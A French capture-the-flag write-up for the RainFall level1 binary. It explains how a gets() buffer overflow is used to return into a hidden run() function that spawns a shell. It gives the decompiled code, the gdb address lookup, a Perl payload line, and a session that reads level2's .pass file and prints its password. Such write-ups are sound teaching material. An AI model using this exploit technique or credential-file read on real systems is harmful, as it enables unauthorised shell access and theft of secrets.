 # level1

Quand on lance le binaire `level`, peu importe le nombre d'argument, on se retrouve dans un prompt.
On peut prompt une valeur, puis le programme exit.

```sh
level1@RainFall:~$ ./level1 
salut
level1@RainFall:~$ ./level1 
423
level1@RainFall:~$ ./level1 test
ouais
level1@RainFall:~$
```

Cette fois ci, l'exécutable peut être décompilé ! Sur ghidra, on repère rapidement ce que l'on va devoir exploiter en voyant ces deux fonctions:
```c
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}



void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

En cherchant des infos sur la fonction `gets`, on trouve très vite des articles qui parlent des problèmes de `gets` avec notamment des buffer overflow. Considérant qu'on a un buffer de 76 charactères qui est déclaré sur la ligne d'au dessus, on comprend vite quelle faille on va devoir exploiter

Après avoir lu [ce très bon article](<https://oxasploits.com/posts/simple-buffer-overflow-exploitation-walkthrough-gdb/>) sur les buffer overflow, on peut commencer à concevoir notre exploit

Notre buffer a une taille de 76 char, on doit donc utiliser un offset de 76 puis envoyer l'adresse de la fonction `run` pour lui faire exécuter le shell

On commence par lancer le binaire avec gdb et utiliser la commande `lay prev`, puis, on scroll un peu plus haut et on trouve l'adresse de la fonction `run`: `0x8048444`

On convertir l'adresse en byte pour la mettre dans le payload en utilisant une [hex escape sequence](<https://www.ibm.com/docs/en/xl-c-and-cpp-aix/16.1?topic=details-hexadecimal-escape-sequence>), ce qui donne `\x44\x84\x04\x08`

On a désormais tout ce qu'il faut pour fabriquer notre payload, on va utiliser ce script perl pour le générer et l'envoyer dans un fichier:
```sh
echo $(perl -e 'print "A"x76 . "\x44\x84\x04\x08";') > /tmp/payload
```

Le script va donc créer une chaine de 76 `A` suivie de l'adresse de la fonction `run` dans le programme

Ensuite, on a plus qu'a faire lire le payload à l'input de notre programme, et on se retrouve dans le shell:
```sh
level1@RainFall:~$ cat /tmp/payload - | ./level1 
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Le `-` dans la commande `cat` sert à faire en sorte que le programme n'exit pas directement au lancement, voir <https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process>